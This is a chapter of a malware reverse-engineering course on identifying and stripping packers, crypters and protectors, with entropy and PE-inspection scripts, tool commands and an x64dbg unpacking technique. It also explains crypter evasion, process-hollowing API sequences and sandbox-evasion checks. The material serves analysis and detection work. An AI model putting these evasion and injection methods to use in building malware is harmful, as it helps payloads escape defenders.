









This is Chapter 7 of the Malware Analysis & Reverse Engineering notebook. Chapter 6 put a debugger in your hands and ended by walking a simple packed loader to its original entry point. This chapter turns that single trick into a complete discipline: every common protection layer you will meet, how each one is built, and the specific, repeatable method for stripping it off.

Everything here runs inside the isolated analysis VM built in Chapter 1 — no host shares, no live network, and a clean snapshot you revert to after each detonation.

## Why This Matters

Take a hundred fresh samples from any commodity feed and run Detect It Easy across them. Somewhere between seventy and ninety of them will be protected in some way. That is not an accident of sampling; it is economics. A packer costs the author nothing, breaks every static signature written against the payload, cuts detection rates on multi-engine scanners dramatically for the first days of a campaign, and forces every analyst who touches the sample to spend twenty minutes doing manual work before they can even begin the real analysis. The same payload re-packed with a fresh key the next morning is, to a hash-based control, a brand-new file.

This produces a hard split in analyst capability. An analyst who cannot unpack is limited to behavioural reporting — "it contacted this domain and wrote this file" — which is useful but shallow, non-attributable, and impossible to turn into durable detection. An analyst who can unpack recovers the actual payload: its real strings, its real import table, its configuration structure, its version markers, its code-reuse fingerprints. That artefact is what family attribution, YARA rules that survive re-packing, and campaign clustering are all built from.

The second half of the problem is that protection is not passive. Modern loaders actively look for you. They check whether a debugger is attached, whether the CPU count is implausibly low, whether the disk is suspiciously small, whether known analysis processes are running, whether `Sleep` returned faster than it should have, whether the mouse ever moved, whether the system locale is one the operator chose to avoid. If any check trips, the sample exits cleanly, or — much worse for you — executes a decoy path that looks like benign software and wastes an hour of your time. Knowing this catalogue, and knowing the specific counter for each entry, is what separates an analyst who says "the sample does nothing when run" from one who says "the sample refuses to run under 2 cores and its real payload is in the branch after the `GetSystemInfo` check".

By the end of this chapter you will be able to look at an unknown protected binary and answer, methodically: what is wrapping it, where does the wrapper hand control to the payload, how do I get a clean copy of that payload onto disk with a working import table, how do I recover its hidden strings and dynamically-resolved APIs, and what is it doing to try to stop me.

## Part 1: The Protection Stack — Packers, Crypters, Protectors, Obfuscators

The words get used interchangeably in casual conversation, which causes real confusion when you are trying to decide on an approach. They describe different things, and the approach that beats one will fail against another.

### 1.1 The four categories

A **packer** compresses the original executable and prepends a small decompression stub. The original motivation was size, not evasion — UPX exists because in the 1990s a 40% smaller binary mattered. The evasion benefit is a side effect: compressed bytes do not match signatures written against uncompressed bytes. Packers are generally reversible and often have public unpackers.

A **crypter** encrypts the original executable and prepends a decryption stub. It has no legitimate size motivation; the entire point is that the payload bytes on disk match nothing. Crypters are the workhorse of commodity crime — sold as a service, with a "FUD" (fully undetectable) guarantee and a re-crypt schedule when detection rates rise. Each build uses a fresh key, so the packed file's hash and byte content differ every time while the payload underneath is identical.

A **protector** is a commercial product aimed at software licensing — VMProtect, Themida/WinLicense, Enigma, Obsidium. It combines compression, encryption, anti-debugging, anti-VM, import protection, integrity checks, and (in the strong tiers) virtualisation of selected functions into a custom bytecode interpreted at runtime. Protectors are engineered by people whose job is to defeat you specifically, and they are the hardest class by a wide margin. Malware uses them because they are effective, and because a cracked copy of Themida is easy to obtain.

An **obfuscator** does not wrap the program at all — it rewrites the program's own code so that the code remains directly executable but is much harder to read. Junk instruction insertion, opaque predicates, control-flow flattening, string encryption, identifier mangling. There is no stub and no "unpacked" moment: the obfuscated form *is* the program. This is why "just dump it from memory" does nothing against an obfuscator, and it is the single most common conceptual mistake analysts make early on.

| Class | What it does to the payload | Is there a distinct "unpacked" moment? | Typical entropy | General approach |
| --- | --- | --- | --- | --- |
| Packer | Compresses it | Yes — payload materialises in memory | 7.0–7.9 | Find OEP, dump, rebuild IAT |
| Crypter | Encrypts it | Yes — often multi-stage | 7.5–8.0 | Same, but stub is bespoke; expect anti-debug |
| Protector | Encrypts + virtualises + guards | Partially — key functions never fully materialise | 7.8–8.0 | Dump what you can; devirtualise or analyse behaviourally |
| Obfuscator | Rewrites the code in place | No | Normal (5.5–6.8) | Simplify statically: deflatten, solve predicates, decrypt strings |
| .NET protector | Renames, encrypts strings, may compress assembly | Yes for packed .NET; no for pure obfuscation | Varies | de4dot / dnSpyEx, or dump the decrypted assembly from memory |

### 1.2 The layered reality

Real samples stack these. A typical commodity infection chain is a malicious document dropping an obfuscated PowerShell one-liner, which reflectively loads a .NET crypter stub, which decrypts and runs a packed native loader, which finally injects the actual stealer into a hollowed `RegAsm.exe`. That is four distinct protection layers of three different classes, and each needs its own technique.



The methodology consequence is important: **peel one layer at a time, and re-triage after each peel.** After you dump layer 3, treat that dump as a brand new unknown sample — run Detect It Easy on it, check its entropy, check its imports. Analysts routinely dump one layer, find the result unreadable, and conclude the dump failed, when in fact the dump was perfect and the thing inside was packed again.

**Red team relevance:** the same taxonomy explains why "we ran it through a packer and it still got caught". A packer defeats static file signatures. It does nothing against behavioural detection, against memory scanning after the payload materialises, or against ETW-based telemetry — the very techniques Part 12 covers from the defensive side. Understanding the layers tells both sides where detection actually lives.

### 1.3 Stub plus payload — the model that explains everything

Nearly every packer and crypter produces a file with the same logical shape, and internalising it makes unpacking feel mechanical rather than mysterious:

- A **stub**: real, executable, on-disk code. This is what the entry point points at, what a disassembler shows you, and what any static analysis of the packed file actually analyses. It is usually small — a few hundred bytes to a few KB.
- A **payload blob**: the compressed or encrypted original, stored as a section (often named oddly), a resource, an overlay after the last section, or a fat `.data` array.
- A **transfer of control**: the moment the stub finishes reconstructing the payload in memory and jumps to it. Everything in Part 4 is about finding this instant.

When you look at a packed file in Ghidra and see forty lines of loop-heavy code with almost no API calls, you are not looking at a broken decompilation — you are looking at the stub, correctly. The malware is the blob it operates on.

## Part 2: Detecting Protection — Entropy, Sections, Imports, Signatures

Never start unpacking before you have identified what you are up against. Five minutes of triage decides whether the answer is `upx -d`, a twenty-minute manual dump, or a two-day protector fight.

### 2.1 Entropy — the first and best signal

Shannon entropy measures information density in bits per byte, from 0 (a file of identical bytes) to 8 (perfectly random). Ordinary compiled x86 code sits around 5.8–6.5: opcodes repeat, addresses share high bytes, padding is zeros. Compressed or encrypted data has no such structure and sits at 7.2–8.0.

The formula, for byte value probabilities p(i):

```
H = -Σ p(i) · log2 p(i)     for i = 0..255
```

A minimal, dependency-free calculator you should keep in your toolkit:

```python
#!/usr/bin/env python3
# entropy.py — whole-file and per-section entropy
import sys, math, collections

def entropy(data: bytes) -> float:
    if not data:
        return 0.0
    counts = collections.Counter(data)
    n = len(data)
    return -sum((c/n) * math.log2(c/n) for c in counts.values())

data = open(sys.argv[1], 'rb').read()
print(f"whole file : {entropy(data):.3f}  ({len(data)} bytes)")

# sliding window highlights a packed blob inside an otherwise normal file
WIN = 4096
high = [(off, entropy(data[off:off+WIN]))
        for off in range(0, len(data)-WIN, WIN)]
for off, e in high:
    if e > 7.2:
        print(f"  high-entropy window at 0x{off:08x}: {e:.3f}")
```

```
$ python3 entropy.py loader.bin
whole file : 7.713  (184320 bytes)
  high-entropy window at 0x00001000: 7.802
  high-entropy window at 0x00002000: 7.891
  high-entropy window at 0x00003000: 7.854
```

The sliding window matters more than the single number. A file at 6.1 overall can still hide a 60 KB encrypted payload in a resource, and the window scan will point straight at its offset. Conversely, a whole-file 7.6 on an installer may be entirely explained by an embedded ZIP or PNG — always check *where* the entropy is before declaring the sample packed.

| Entropy reading | Usual meaning |
| --- | --- |
| below 5.0 | Text, scripts, mostly-zero data, .NET metadata-heavy files |
| 5.5 – 6.5 | Normal native compiled code |
| 6.5 – 7.2 | Mixed; code plus embedded media, or lightly obfuscated |
| 7.2 – 7.8 | Compressed — classic packer territory |
| 7.8 – 8.0 | Encrypted or strongly compressed — crypter or protector |

### 2.2 Detect It Easy from scratch

**Detect It Easy (DIE)** is the modern replacement for PEiD: an open-source file-type and packer identifier driven by scriptable signatures, with a GUI, a console binary, and per-section entropy visualisation built in. It exists because packer identification needs to be updated constantly, and a scriptable signature database ages far better than a hard-coded one.

Install on Kali or any Debian-based analysis host:

```bash
# Kali/Debian
sudo apt update && sudo apt install -y detect-it-easy
# or grab the portable build (works on Windows analysis VM too)
wget https://github.com/horsicq/DIE-engine/releases/latest/download/die_lin64_portable.tar.gz
tar xzf die_lin64_portable.tar.gz && cd die_lin64_portable
```

The three binaries you get:

| Binary | Purpose |
| --- | --- |
| `die` | Full GUI — section table, entropy graph, hex view, signature scan |
| `diec` | Console scanner, the one you script with |
| `diel` | Lightweight GUI |

Core console workflow and the flags worth knowing:

```bash
diec loader.bin                 # basic identification
diec -d loader.bin              # deep scan — walks resources, overlays, sub-files
diec -e loader.bin              # entropy report per section
diec -j -d loader.bin           # JSON output for pipelines
diec -a loader.bin              # show all matching signatures, not just best
```

```
$ diec -d -e loader.bin
PE32
    Operation system: Windows(95)[I386, 32-bit, GUI]
    Compiler: MASM32(11)[-]
    Packer: UPX(3.96)[NRV,best]
    Overlay: Binary
Entropy: 7.713 (packed)
    PE Header      0x00000000 0x00000400  2.71232  not packed
    Section(0)['UPX0']  0x00000400 0x00000000  0.00000  not packed
    Section(1)['UPX1']  0x00000400 0x0002a000  7.89133  packed
    Section(2)['.rsrc'] 0x0002a400 0x00001000  4.11202  not packed
```

**Treat every packer name DIE gives you as a hypothesis, not a fact.** Signature matching keys off stub byte patterns and section names, both of which take thirty seconds to fake. A common trick is naming sections `UPX0`/`UPX1` on a completely custom crypter so that analysts waste time running `upx -d`, and an equally common one is stripping the UPX magic from a genuinely UPX-packed file so `upx -d` refuses while the ESP trick still works perfectly.

### 2.3 Section table anomalies

The section table is where packing leaves the most reliable structural fingerprints. Use `pefile` for scriptable inspection:

```python
#!/usr/bin/env python3
# sections.py — flag packer-typical section anomalies
import sys, pefile

pe = pefile.PE(sys.argv[1])
print(f"{'name':10} {'vsize':>10} {'rawsize':>10} {'entropy':>8}  flags")
for s in pe.sections:
    name = s.Name.rstrip(b'\x00').decode('latin-1')
    ch = s.Characteristics
    flags = ''.join([
        'R' if ch & 0x40000000 else '-',
        'W' if ch & 0x80000000 else '-',
        'X' if ch & 0x20000000 else '-',
    ])
    print(f"{name:10} {s.Misc_VirtualSize:>10x} {s.SizeOfRawData:>10x} "
          f"{s.get_entropy():>8.3f}  {flags}")

print("\nEntry point section:",
      pe.get_section_by_rva(pe.OPTIONAL_HEADER.AddressOfEntryPoint).Name)
print("Imported DLLs:",
      len(getattr(pe, 'DIRECTORY_ENTRY_IMPORT', [])))
```

```
$ python3 sections.py loader.bin
name            vsize    rawsize  entropy  flags
UPX0            29000          0    0.000  RWX
UPX1            2a000      2a000    7.891  RWX
.rsrc            1000       1000    4.112  RW-

Entry point section: b'UPX1'
Imported DLLs: 1
```

Each of those lines is a red flag, and knowing *why* each one is suspicious is what lets you spot custom packers that no signature will ever name:

| Anomaly | Why it indicates packing |
| --- | --- |
| Virtual size much larger than raw size | Section reserves memory to be filled at runtime by the decompressor |
| Raw size of zero with non-zero virtual size | The section has no on-disk content at all — pure decompression target |
| Section writable **and** executable (RWX) | Code will be written then executed there; normal compilers never emit RWX |
| Entry point not in `.text` / first code section | Execution starts in the stub's section, not the compiler-generated one |
| Non-standard section names (`UPX0`, `.aspack`, `.themida`, `.vmp0`, random 4-char) | Named by the packer rather than the compiler |
| Two or three imported DLLs total | The stub needs only `LoadLibrary`/`GetProcAddress`; the payload's real imports are resolved at runtime |
| Large overlay after last section | Payload blob appended outside the section map |
| Timestamp of zero, or absurd (1970, 2099) | Header fields rewritten by the packing tool |

### 2.4 The import table tell

This is the single most decisive static signal after entropy. Open the imports of a packed file:

```
$ python3 -c "
import pefile,sys
pe=pefile.PE('loader.bin')
for e in pe.DIRECTORY_ENTRY_IMPORT:
    print(e.dll.decode())
    for i in e.imports: print('   ', i.name.decode() if i.name else i.ordinal)
"
KERNEL32.DLL
    LoadLibraryA
    GetProcAddress
    VirtualAlloc
    VirtualProtect
    ExitProcess
```

Five imports. A real program that opens files, talks to the network, and touches the registry cannot possibly run on five imports — it needs dozens to hundreds. What you are seeing is exactly the toolkit an unpacking stub requires: allocate memory (`VirtualAlloc`), make it executable (`VirtualProtect`), and rebuild the payload's own imports (`LoadLibraryA` + `GetProcAddress`). The payload's genuine imports do not exist on disk; they will be constructed in memory. Recovering them is Part 5's entire subject.

**Bug bounty parallel:** this same reasoning — "the declared capability surface is far too small for the observed behaviour" — is the instinct that finds hidden functionality in obfuscated client-side JavaScript bundles during web assessments. A 4 KB bundle that produces authenticated API traffic is loading its real logic from somewhere.

### 2.5 capa — capability detection that survives light obfuscation

**capa** is a FLARE-team tool that matches rules against a binary's disassembly to state *capabilities* in plain language ("encrypt data using AES", "inject code into remote process") rather than just identifying the packer. On a packed file it will mostly report packing-related capabilities, which is itself a useful confirmation; run it again on your dump and it becomes the fastest possible summary of what the payload does.

```bash
# install (Linux or Windows analysis VM)
pip install flare-capa
# or standalone binary
wget https://github.com/mandiant/capa/releases/latest/download/capa-linux.zip
```

```bash
capa loader.bin                 # default report
capa -v loader.bin              # verbose — shows matched features
capa -vv loader.bin             # very verbose — every matched rule location
capa -j loader.bin > caps.json  # machine-readable
```

```
$ capa loader.bin
WARNING: This sample appears to be packed.
capa cannot handle packed files; results will be incomplete.

+------------------------+----------------------------------------------------+
| ATT&CK Tactic          | ATT&CK Technique                                   |
+------------------------+----------------------------------------------------+
| DEFENSE EVASION        | Obfuscated Files or Information [T1027]            |
| DEFENSE EVASION        | Obfuscated Files or Information::Software Packing  |
+------------------------+----------------------------------------------------+
```

That warning is a feature: capa detecting packing tells you to stop and unpack before spending analysis time.

### 2.6 A triage decision tree



## Part 3: How Runtime Packers Actually Work — The Unpacking Stub Lifecycle

You cannot reliably find the moment of transfer to the payload without a mental model of what the stub is doing on either side of it. Every stub, from a fifty-byte crypter to Themida, performs some subset of the same six stages.

### 3.1 The six stages

1. **Set up.** Save the register state (classically `pushad`, which is why the ESP trick works), locate its own base address (usually via a `call $+5` / `pop` sequence to read EIP on x86), and find `kernel32`'s base — often by walking the PEB rather than importing anything.
2. **Acquire memory.** Either use the space already reserved by an oversized virtual section, or call `VirtualAlloc` for a fresh region. The allocation is typically RW at first, or RWX in lazier implementations.
3. **Reconstruct the payload.** Decompress (aPLib, LZMA, NRV/UCL for UPX) and/or decrypt (RC4, XOR with a rolling key, AES via bcrypt or a hand-rolled implementation) the blob into that memory.
4. **Rebuild imports.** Walk the payload's own import descriptors, `LoadLibraryA` each DLL, `GetProcAddress` each function, and write the addresses into the payload's Import Address Table. This is the stage whose absence breaks naive dumps.
5. **Apply relocations and permissions.** If the payload could not be mapped at its preferred base, patch every relocation entry. Then `VirtualProtect` the code region to `PAGE_EXECUTE_READ` (or leave it RWX, which is a gift to defenders).
6. **Transfer control.** Restore registers (`popad`) and jump to the payload's original entry point — a `jmp`, a `call`, a `ret` with a pushed address, or an indirect jump through a register.



The **dump window** annotated at the bottom is the practical takeaway. Between stage 6 and the payload's first destructive action, the fully reconstructed payload sits in memory with a valid IAT. Freeze the process there and you can take a near-perfect copy. Freeze earlier and the imports are unresolved; let it run on and the payload may erase its own headers, overwrite the stub, or inject elsewhere and exit.

### 3.2 Self-injection versus remote injection

Where the payload ends up determines which dumping tool you reach for. Four patterns dominate:

**Self-injection (in-place unpacking).** The payload is decompressed into the stub's own process, usually into an oversized section of the original image. The process image at `0x400000` simply *becomes* the payload. This is UPX and most simple packers, and it is the easiest case: your debugger is already in the right process, and the module base is the payload base.

**Self-injection into fresh memory.** The stub `VirtualAlloc`s a region outside the image and runs the payload there. The dump target is a private RWX region, not a module, so tools that only dump modules will miss it. `PE-sieve` finds these by scanning for PE headers in private memory.

**Process hollowing (RunPE).** The stub launches a legitimate signed binary suspended (`CreateProcess` with `CREATE_SUSPENDED`), unmaps or overwrites its image (`NtUnmapViewOfSection` / `WriteProcessMemory`), writes the payload in its place, rewrites the thread context's entry point (`SetThreadContext`), and resumes. The payload runs inside a process named `svchost.exe` or `RegAsm.exe` or `AddInProcess32.exe`. Your debugger, attached to the parent, will never see the payload execute — you must attach to the child, or break on `ResumeThread` and dump the child's memory before it runs.

**Reflective / manual mapping.** The stub implements the PE loader itself entirely in memory, so the payload never touches disk and may never be a properly registered module. Module-listing APIs will not show it; only a memory scan will.



**Blue team usage:** these three shapes map directly onto three high-fidelity detections. Self-injection into private RWX shows as executable memory with no backing file. Hollowing shows as a process whose in-memory image does not match its on-disk file, plus a `CREATE_SUSPENDED` parent-child pair. Reflective loading shows as a thread whose start address is in unbacked memory. Part 12 turns each into a concrete rule.

### 3.3 What "original entry point" actually means

The **OEP** is the `AddressOfEntryPoint` value the payload had when it was compiled, before packing. For a C program it is not `main` — it is the CRT startup routine (`mainCRTStartup` / `WinMainCRTStartup`), which initialises the heap, parses the command line, and calls `main`. That is why the OEP so often looks like this:

```asm
00401F00  55              push ebp
00401F01  8BEC            mov ebp, esp
00401F03  6A FF           push -1
00401F05  68 xx xx 40 00  push offset SEH_handler
00401F0A  64 A1 00000000  mov eax, fs:[0]
```

A standard prologue, at a low address in the image, immediately after a wild jump from a completely different section. Recognising that shape on sight is the core skill of Part 4. In modern MSVC binaries you may instead land on a `call` to `__security_init_cookie` followed by a `jmp` to `__scrt_common_main_seh` — equally distinctive once you have seen it a few times.

For .NET payloads the concept differs: the entry point is a metadata token, not a native address, and "unpacking" a packed .NET assembly means recovering the assembly bytes rather than finding a native OEP. Part 9 covers that path.

## Part 4: Manual Unpacking Methodology — Every Way to Find the OEP

Chapter 6 taught the ESP trick against a UPX stub. That is one technique of eight, and it fails the moment a stub does not use `pushad`. This part is the full toolkit, ordered roughly by how often it works. All commands are x64dbg command-bar syntax from Chapter 6.

### 4.1 Technique 1 — The ESP trick (stack restoration breakpoint)

**Applies when:** the stub saves registers on entry with `pushad` (x86) or a run of `push` instructions, and restores them right before the jump to OEP. Extremely common in classic packers.

**Mechanism:** the saved registers sit at the top of the stack for the entire life of the stub. Nothing reads them until the restore. A hardware breakpoint on *read* at that stack address therefore fires precisely at the `popad`, which is within a handful of instructions of the OEP jump.

```
; at the entry breakpoint, first instruction is pushad
F8                          ; step over pushad — registers now on stack
; read ESP from the registers pane, e.g. 0019FF60
bph 0019FF60, r, 4          ; hardware bp, on read, 4 bytes
F9                          ; run — fires at popad
```

